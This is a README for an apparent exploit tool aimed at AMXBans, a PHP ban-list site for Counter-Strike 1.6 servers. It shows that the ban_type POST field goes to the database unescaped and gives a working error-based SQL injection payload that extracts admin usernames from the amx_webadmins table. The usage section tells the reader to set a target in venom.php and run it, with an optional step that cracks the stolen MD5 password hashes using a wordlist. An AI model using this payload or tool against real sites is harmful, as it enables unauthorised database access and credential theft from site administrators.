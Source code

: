 
# Short info
<p> Amxbans is an website for the Counter-Strike 1.6 banlists </p>
<p> It works like -> Admin gives you ban, and all information about ban are appears on the website </p>

 <img src="screen.png"  height="400" width="600">

# Explanation
<img src="explanation.png"  height="400" width="600">

<p> Look on the image where code block section are selected with red rectangle.
There are defined bunch of variables , and all these variables are filtered with the sql_safe function </p>
<br>
<p> SQL_SAFE source</p>
include/functions.inc.php LINE 80

```
function sql_safe($value) {
	if (get_magic_quotes_gpc()) $value=stripslashes_recursive($value); //function in config.inc.php
	return mysql_real_escape_string($value);
} 
```
- [1] get_magic_quotes_gpc() = Checks configuration in php.ini,  if this feature
is avaliable then it wiil escape all  single-quote, double quote, backslash and NULs 
- [2] stripslashes_recursive($value) = All data which will passed in $value will be filtered and slashes will be stripped.
- [3] sql_safe function will return with mysql_real_escape_string which is the mysql function used against sql injection attacks.

# Vulnerability
<p>As you see all the requests are fileter except one which is the </p>

```
$type = $_POST["ban_type"];
```
<p>so that means that we can pass whatever we want in the $_POST request and it will executed in the database</p>
<p>For example into the $_POST["ban_type"] we can pass sql query like below</p>

```
"'+(1 AND extractvalue(rand(),concat(0x3a,(SELECT  username  FROM `amx_webadmins` WHERE ID > 0  LIMIT 2,1))))+'"
```
<p>and it will return Username from the amx_webadmins</p>


# Usage
- [1] Open venom.php and set the target on line 40
- Experimental = You can uncomment ```restore_hash($password);``` on the 67 line
then import code from the db.sql and your wordlist into the mysql server.
It  will give you posibility to use your own password cracking wordlist for md5 hash from the your server without using any other online platforms.
```
php venom.php
```
